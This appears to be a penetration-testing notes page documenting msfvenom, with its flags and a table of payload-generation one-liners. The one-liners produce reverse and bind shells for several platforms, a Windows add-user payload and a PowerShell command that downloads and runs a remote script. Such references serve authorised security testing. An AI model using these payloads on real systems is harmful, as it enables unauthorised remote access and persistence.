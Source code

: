 ```yaml
---
### The title for the content.
title: "msfvenom"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "msfvenom"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description: "A Metasploit standalone payload generator."
### The datetime assigned to this page.
date: 2020-03-10T16:43:46+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "msfvenom"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight: 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## msfvenom

### Installation

Install metasploit.

### Usage

```bash
msfvenom [options] <var=val>
```

### Flags

```bash
-l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
-p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
    --list-options               List --payload <value>'s standard, advanced and evasion options
-f, --format          <format>   Output format (use --list formats to list)
-e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
    --service-name    <value>    The service name to use when generating a service binary
    --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
    --smallest                   Generate the smallest possible payload using all available encoders
    --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
    --encrypt-key     <value>    A key to be used for --encrypt
    --encrypt-iv      <value>    An initialization vector for --encrypt
-a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
    --platform        <platform> The platform for --payload (use --list platforms to list)
-o, --out             <path>     Save the payload to a file
-b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
-n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
    --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
-s, --space           <length>   The maximum size of the resulting payload
    --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
-i, --iterations      <count>    The number of times to encode the payload
-c, --add-code        <path>     Specify an additional win32 shellcode file to include
-x, --template        <path>     Specify a custom executable file to use as a template
-k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
-v, --var-name        <value>    Specify a custom variable name to use for certain output formats
-t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
-h, --help                       Show this message
```

### Examples

[source](https://raw.githubusercontent.com/frizb/MSF-Venom-Cheatsheet/master/README.md)

| MSFVenom Payload Generation One-Liner                                                                                                                                                                                     | Description                                     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------- |
| `msfvenom -l payloads`                                                                                                                                                                                                    | List available payloads                         |
| `msfvenom -p PAYLOAD --list-options`                                                                                                                                                                                      | List payload options                            |
| `msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP`                                                                                                                                                       | Payload Encoding                                |
| `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                    | Linux Meterpreter reverse shell x86 multi stage |
| `msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                       | Linux Meterpreter bind shell x86 multi stage    |
| `msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                             | Linux bind shell x64 single stage               |
| `msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                          | Linux reverse shell x64 single stage            |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`                                                                                                                                      | Windows Meterpreter reverse shell               |
| `msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe` | Windows Meterpreter http reverse shell          |
| `msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe`                                                                                                                                        | Windows Meterpreter bind shell                  |
| `msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`                                                                                                                                            | Windows CMD Multi Stage                         |
| `msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`                                                                                                                                            | Windows CMD Single Stage                        |
| `msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe`                                                                                                                                              | Windows add user                                |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho`                                                                                                                                        | Mac Reverse Shell                               |
| `msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho`                                                                                                                                           | Mac Bind shell                                  |
| `msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py`                                                                                                                                               | Python Shell                                    |
| `msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh`                                                                                                                                                 | BASH Shell                                      |
| `msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl`                                                                                                                                                 | PERL Shell                                      |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp`                                                                                                                                      | ASP Meterpreter shell                           |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp`                                                                                                                                           | JSP Shell                                       |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war`                                                                                                                                           | WAR Shell                                       |
| `msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`                                            | Php Meterpreter Shell                           |
| `msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php`                                                                                                                                            | Php Reverse Shell                               |
| `msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f python`                                                                | Windows Exec Nishang Powershell in python       |
| `msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"`                                                                                                     | Bad characters shikata_ga_nai                   |
| `msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"`                                                                                                        | Bad characters fnstenv_mov                      |

# See Also

- https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675
- https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/
- http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/
